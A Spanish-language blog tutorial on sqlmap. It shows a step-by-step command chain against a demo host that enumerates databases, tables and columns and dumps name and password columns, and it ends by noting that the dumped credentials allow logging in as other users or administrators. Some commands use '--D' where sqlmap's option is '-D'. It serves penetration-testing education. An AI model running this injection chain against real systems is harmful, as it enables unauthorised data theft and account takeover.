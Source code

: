 ```yaml
---
date: 2021-09-15T05:03:05.000Z
layout: post
comments: true
title: SQLMAP
subtitle: 'y algunas de sus utilidades'
description: >-
image: >-
  http://imgfz.com/i/lHWCDTL.png
optimized_image: >-
  http://imgfz.com/i/lHWCDTL.png
category: ciberseguridad
tags:
  - sql
  - linux
  - sqlmap
  - database
  - ciberseguridad
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


SQLMAP permite testear muchos motores de bases de datos y muchas características especificas para analizar la seguridad de estas. 

Por ejemplo si queremos ejecutarlo y ya tenemos una sesión, se ocupa lo siguiente en el caso de que no se conozca el servicio (MySQL, SQL Server, PostgreSQL, etc):
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --dbs --batch --random-agent
```
Parámetros usados

| Parámetro | Utilidad |
| :--------: | :-------: |
| -u | Indicar el url. |
| --cookie | Indicar la cookie de sesión. |
| --dbs | Lista las base de datos disponibles. |
| --batch | Selecciona las opciones por defecto(no manual). |
| --random-agent | Va cambiando por cada consulta el User-Agent. |

Ahora si conocemos el servicio, se ocupa el parámetro ```--dbms```, por ejemplo:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --dbs --batch --random-agent --dbms=mysql
```

Una vez se termina el proceso, deberíamos poder ver las base de datos y ahora para realizar las consultas se reemplaza el párametro ```--dbs``` por ```-D```, en el cual se le indica el nombre de la base de datos encontrada:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --D databasename --batch --random-agent --dbms=mysql
```
Y ahora para buscar las tablas de la base de datos se ocupa el parámetro ```--tables```:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --D databasename --tables --batch --random-agent --dbms=mysql
```

Si conseguimos obtener las tablas pues ahora de una tabla ```-T```, podemos buscar sus columnas ```--columns```:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --D databasename -T tablename --columns --batch --random-agent --dbms=mysql
```

Una vez realizado este proceso, si se encuentran columnas con posibles datos sensibles, pues se procede a obtener estos datos (dumpear), a través del parámetro ```--dump```(se selecciona la(s) columna(s) con ```-C```), por ejemplo:
```bash
┌─[root@kali]─[/Documents/machines/demo/]
└──╼ sqlmap -u 'http://10.0.0.1/view.php?mod=admin&view=repod&id=plans' --cookie="PHPSESSID=cookie-de-sesión" --D databasename -T tablename -C name,pass --dump --batch --random-agent --dbms=mysql
```
Y así es como finalmente tendríamos los datos que queremos para por ejemplo iniciar sesión con credenciales de otros usuarios y/o administradores.
